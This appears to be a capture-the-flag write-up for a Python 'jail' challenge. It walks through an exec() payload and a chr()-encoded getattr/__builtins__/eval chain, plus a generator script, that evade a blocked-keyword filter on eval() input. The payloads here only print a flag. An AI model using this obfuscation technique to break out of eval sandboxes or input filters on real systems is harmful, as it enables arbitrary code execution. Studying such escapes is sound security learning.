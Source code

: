#Quack Say#

For `jail1.py` -

```
exec('import os, sys;sys.stdout = sys.__stdout__;print("CSeC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}");sys.stdout = open(os.devnull, "w")')
```

For `jail2.py` -

```
getattr(*(list(getattr(*(list(globals() for a in chr(1)) + list(chr(103)+chr(101)+chr(116) for a in chr(1))))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)) for a in chr(1)) + list(chr(101)+chr(118)+chr(97)+chr(108) for a in chr(1))))(chr(101)+chr(120)+chr(101)+chr(99)+chr(40)+chr(39)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(44)+chr(32)+chr(115)+chr(121)+chr(115)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(115)+chr(121)+chr(115)+chr(46)+chr(95)+chr(95)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(95)+chr(95)+chr(59)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(34)+chr(67)+chr(83)+chr(101)+chr(67)+chr(123)+chr(81)+chr(117)+chr(52)+chr(99)+chr(107)+chr(95)+chr(49)+chr(53)+chr(95)+chr(104)+chr(49)+chr(98)+chr(51)+chr(114)+chr(110)+chr(52)+chr(55)+chr(49)+chr(110)+chr(103)+chr(125)+chr(34)+chr(41)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(111)+chr(115)+chr(46)+chr(100)+chr(101)+chr(118)+chr(110)+chr(117)+chr(108)+chr(108)+chr(44)+chr(32)+chr(34)+chr(119)+chr(34)+chr(41)+chr(39)+chr(41))
```

This was without a doubt the most gruelling problem of this set. I surely spent over 1 hour on `jail1.py` and maybe even 4-5 hours searching for different methods to solve `jail2.py`.

I had a few immediate observations on seeing the code.

First of all, the list of blocked words in `jail2.py` was a hint to solving `jail1.py`. 

The `eval()` function only computes expressions, but I wanted to run my own code. On Googling, I found that an `exec` statement could be used inside an `eval()`.

To get the required print output, I designed this piece of code -

```python
import os, sys
sys.stdout = sys.__stdout__
print("CSeC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}")
sys.stdout = open(os.devnull, "w")
```

In brief, this code prints a text to the `default stdout`, then redirects the output of the `stdout` stream to `os.devnull` (trash). Hence, any more text will not be printed to the console.

Now, we just need to wrap an `exec()` function around this and we're done with `jail1.py`.

The next part was much more difficult.

On exploring internet, I first found the `compile()` function which compiles python source code into AST objects. I assumed that if I somehow could export this output into a string, it would not contain any part of the cleartext (original code), and I would successfully be able to pass it as input.

However, I was unable to get around this problem. I found [this](https://stackoverflow.com/questions/71510595/serialize-python-code-object-from-compile) question on StackExchange looking for exactly what I wanted, but was unsolved.

I started with another approach. The `eval()` function accepts a string, whose encoding I thought I could manipulate. I started searching for various encoding streams of `string.encode()` in python, which would scramble my cleartext to make it pass.

Again, I was stuck trying to find one such encoding and left this approach.

At this point I had spent atleast 2-3h reading articles on [Python Bytecode](https://towardsdatascience.com/understanding-python-bytecode-e7edaae8734d), [compile()](https://docs.python.org/3/library/functions.html#compile) and [eval()](https://medium.com/techtofreedom/the-eval-function-in-python-a-powerful-but-dangerous-weapon-ba44e39fa9e2) without much success.

One common thing I notices in most of these articles was that the `eval()` function is quite insecure, and even simple checks (like making sure the expression does not delete system files, or doesn't modify variables) are readily exploitable.

I started searching more on this and came across [this](https://stackoverflow.com/questions/3513292/python-make-eval-safe) answer on Stack.

```
> are eval's security issues fixable or are there just too many tiny details to get it working right?

Definitely the latter -- a clever hacker will always manage to find a way around your precautions.
``` 

I then searched for some of these exploits and came across 3-4 of them - using `pyparsing`, `ast`, `binascii` and `getattr + ord`.

To avoid importing anything, I looked more into the `getattr + ord` exploit and came across [**this**](https://stackoverflow.com/questions/13066594/is-there-a-way-to-secure-strings-for-pythons-eval) answer on Stack which was basically it.

The exploit -

```python
def to_chrs(text):
    return '+'.join('chr(%d)' % ord(c) for c in text)

def _make_getattr_call(obj, attr):
    return 'getattr(*(list(%s for a in chr(1)) + list(%s for a in chr(1))))' % (obj, attr)

def make_exploit(code):
    get = to_chrs('get')
    builtins = to_chrs('__builtins__')
    eval = to_chrs('eval')
    code = to_chrs(code)
    return (_make_getattr_call(
                _make_getattr_call('globals()', '{get}') + '({builtins})',
                '{eval}') + '({code})').format(**locals())
```

Using `make_exploit()` on the code 

```
exec('import os, sys;sys.stdout = sys.__stdout__;print("CSeC{Qu4ck_15_h1b3rn471ng}");sys.stdout = open(os.devnull, "w")')
```
we finally generate a looooooooong input which does pass `file2.py` and we are done.

The final commands are -

```bash
satyankar@Satyankars-MacBook-Air Quack_Say % python3 solve.py 1
exec('import os, sys;sys.stdout = sys.__stdout__;print("CSeC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}");sys.stdout = open(os.devnull, "w")')
satyankar@Satyankars-MacBook-Air Quack_Say % python3 solve.py 2
getattr(*(list(getattr(*(list(globals() for a in chr(1)) + list(chr(103)+chr(101)+chr(116) for a in chr(1))))(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)) for a in chr(1)) + list(chr(101)+chr(118)+chr(97)+chr(108) for a in chr(1))))(chr(101)+chr(120)+chr(101)+chr(99)+chr(40)+chr(39)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(44)+chr(32)+chr(115)+chr(121)+chr(115)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(115)+chr(121)+chr(115)+chr(46)+chr(95)+chr(95)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(95)+chr(95)+chr(59)+chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(34)+chr(67)+chr(83)+chr(101)+chr(67)+chr(123)+chr(81)+chr(117)+chr(52)+chr(99)+chr(107)+chr(95)+chr(49)+chr(53)+chr(95)+chr(104)+chr(49)+chr(98)+chr(51)+chr(114)+chr(110)+chr(52)+chr(55)+chr(49)+chr(110)+chr(103)+chr(125)+chr(34)+chr(41)+chr(59)+chr(115)+chr(121)+chr(115)+chr(46)+chr(115)+chr(116)+chr(100)+chr(111)+chr(117)+chr(116)+chr(32)+chr(61)+chr(32)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(111)+chr(115)+chr(46)+chr(100)+chr(101)+chr(118)+chr(110)+chr(117)+chr(108)+chr(108)+chr(44)+chr(32)+chr(34)+chr(119)+chr(34)+chr(41)+chr(39)+chr(41))
```

~~command for file2 doesn't fit in my terminal stdin lol and has to be sent via redirection.~~